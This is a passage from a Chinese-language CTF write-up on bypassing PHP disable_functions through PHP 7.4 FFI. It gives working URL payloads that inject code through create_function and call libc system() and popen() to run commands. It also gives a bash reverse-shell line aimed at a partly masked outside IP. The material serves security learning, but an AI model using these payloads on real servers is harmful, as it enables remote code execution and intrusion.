 使用蚁剑成功连接，但是无法访问其他目录也无法执行命令：

![image-20210525165229030](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525165230.png)

![image-20210525165239276](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525165240.png)

很有可能是题目设置了disable_functions，我们执行一下phpinfo()看看：

```
/?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

发现果然用disable_functions禁用了很多函数：

![image-20210525165319375](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525165320.png)

根据题目名字的描述，应该是让我们使用PHP 7.4 的FFI绕过disabled_function，并且我们在phpinfo中也看到FFI处于enable状态：

![image-20210525165347743](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525165349.png)

#### 2.11.3.1 利用FFI调用C库的system函数

我们首先尝试调用C库的system函数：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

C库的system函数执行是没有回显的，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用 `echo file_get_contents("/tmp/res.txt");` 查看执行结果即可。

但是这道题执行后却发现有任何结果，可能是我们没有写文件的权限。尝试反弹shell：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system('bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"')/*
```

但这里也失败了，可能还是权限的问题。所以，我们还要找别的C库函数。

#### 2.11.3.2 利用FFI调用C库的popen函数

C库的system函数调用shell命令，只能获取到shell命令的返回值，而不能获取shell命令的输出结果，如果想获取输出结果我们可以用popen函数来实现：

```
FILE *popen(const char* command, const char* type);
```

popen()函数会调用fork()产生子进程，然后从子进程中调用 /bin/sh -c 来执行参数 command 的指令。

参数 type 可使用 "r"代表读取，"w"代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

所以，我们还可以利用C库的popen()函数来执行命令，但要读取到结果还需要C库的fgetc等函数。payload如下：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls /","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/*
```
